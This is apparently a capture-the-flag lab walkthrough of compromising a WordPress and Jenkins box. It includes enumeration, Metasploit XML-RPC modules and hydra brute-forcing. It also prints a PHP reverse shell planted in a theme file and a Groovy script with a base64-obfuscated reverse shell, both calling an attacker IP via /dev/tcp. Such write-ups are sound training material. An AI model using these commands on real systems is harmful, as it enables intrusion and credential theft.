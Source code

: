 INTERNAL.THM

we write inside the /etc/hosts our site internal.thm 

	sudo nano /etc/hosts

now it's time to enumerate with nmap,gobuster and wfuzz:

	nmap -sV internal.thm
	gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt -t 30
	wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://internal.thm -H "Host:FUZZ.internal.thm" --hl 375

nmap report that there are 22(SSH) and 80(Http), gobuster report some directory:(blog,wordpress,phpmyadmin), wfuzz nothing.
from gobuster we know that it is a wordpress it's time to run wpscan

	wpscan --force update -e --url http://internal.thm/wordpress
 
it seems that is enabled the xmlrhc, a protocol that is used to connect from everywhere to a wordpress site like a RPC, this protocol it allows to do ping and bruteforce so it should be set to off.
by running wpscan we had this output: 

	XML-RPC seems to be enabled: http://internal.thm/wordpress/xmlrpc.php
	 Found By: Direct Access (Aggressive Detection)
 	 Confidence: 100%
 	 References:
 	    http://codex.wordpress.org/XML-RPC_Pingback_API
		https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/

I visit this two link the that inside them there are some instruction in order to use modules from metasploit, the first one for the pingback and second one for bruteforce:

	use auxiliary/scanner/http/wordpress_pingback_access
	/set all options/
	run

	use auxiliary/scanner/http/wordpress_pingback_access
	/set options, especially the user and the wordlist in order to bruteforce/

after inside i retrieve some creds from a post written by the admin and I load a revshell php inside the 404.php into twentysevent theme.
here the revshell and command to connect it:

	exec("/bin/bash -c 'bash -i > /dev/tcp/10.8.98.143/4444 0>&1'");
	python3 -m pwncat
	connect -lp 4444

then load it we browse in the following url: http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php and we're inside the server.
Then uploading Linpeas-sh and run it, there isn't nothing so i had an idea to use find and retreieve some .txt:

	find / -name "*.txt" 2>/dev/null

Interesting file is:

	/opt/wp-save.txt

 i found inside the aubreanna credentials so i enter in her account, afert inside there is the first flag and a txt with a hint:

 	Internal Jenkins service is running on 172.17.0.2:8080 (jenkins is used to deploy of kubernetes)

so it's a must to do a port forward of this service and access by our terminal in order to do so i used this command:

	ssh -L 5555:127.0.0.1:8080 aubreanna@10.10.74.42
			|				!--> 8080 port of the jenkin's service
			|-> our port (5555 and our localhost)

so we bind the 8080 to our 5555, then we acces at the ssh in our shell, in order to activate the binding and then we search on th browser thi url:

	http://127.0.0.1:5555 (jenkin's service)

the default creds of jerkin's services are admin and password but does'nt work so i try to do a bruteforce with hydra and the following command:

	hydra 127.0.0.1 -s 5555 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
	
after inside it's time to load a revshell, we go to /script and we upload a groovy script, the following command:

	def sout = new StringBuffer(), serr = new StringBuffer()
	def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44Ljk4LjE0My82NjY2IDA+JjEn}|{base64,-d}|{bash,-i}'.execute()
	proc.consumeProcessOutput(sout, serr)
	proc.waitForOrKill(1000)
	println "out> $sout err> $serr"
	pwncat connect -lp 55555

finally we're inside, first I upload linpeas.sh in /tmp but there isn't interesting so I search in /opt and I find a note.txt, i search in this folder because there are very high chanche that if there was a password here, it will be in the future in the same spot, so i find it.
the passwd it's for the main webserver and not for jenkins  